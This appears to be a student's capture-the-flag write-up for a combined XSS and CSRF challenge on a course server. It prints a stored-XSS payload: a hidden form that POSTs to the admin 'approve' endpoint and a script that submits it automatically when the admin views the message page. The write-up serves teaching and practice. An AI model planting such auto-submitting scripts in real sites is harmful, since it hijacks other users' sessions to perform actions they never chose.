




# XSS + CSRF

## Exploration

The website allows us to submit a message that will be displayed in another page.



We also know that the admin has to go to the Request Page to check the message and go to the Admin Page and click the "Give the Flag" button.

## Execution

Therefore, we need to input a script through the submit page that:

- Creates a POST request similar to the "Give the Flag" button one.
- When the Request Page is loaded, the POST request is made. 

```html
<form id="hacked" method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/f31f56d274a458955be9645f0237b84c8ef94db8/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" enabled>
        
    </div>
</form>
<script>
    document.getElementById("hacked").submit();
</script>
```
Because our submit button immediately redirects us to a forbidden page that we do not have permission to, we have to stop that redirecting script from running. Therefore, we have to turn off our browser's javascript functionality.



Now the redirecting script is not running so we don't go to the forbidden page anymore.



We now click the `page` reference to go to the admin page and then click the `here` reference within that page.



We can now see the flag!